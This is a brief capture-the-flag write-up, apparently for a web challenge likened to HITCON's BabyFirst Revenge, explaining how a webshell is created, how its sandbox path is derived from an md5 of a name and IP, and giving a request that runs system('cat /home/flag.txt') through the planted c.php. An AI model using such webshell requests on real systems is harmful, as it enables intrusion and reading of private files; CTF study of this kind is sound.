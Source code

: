 So this challenge was very identical to BabyFirstWeb Revenge from HITCON CTF

Running the script would create a webshell

But you need your public ip address so as to retrieve the path to where the webshell uploaded:

```
$sandbox = md5("Aguns" . "127.0.0.1");
```

From here you can run php command:

```
/c.php?cmd=system("cat /home/flag.txt")
```
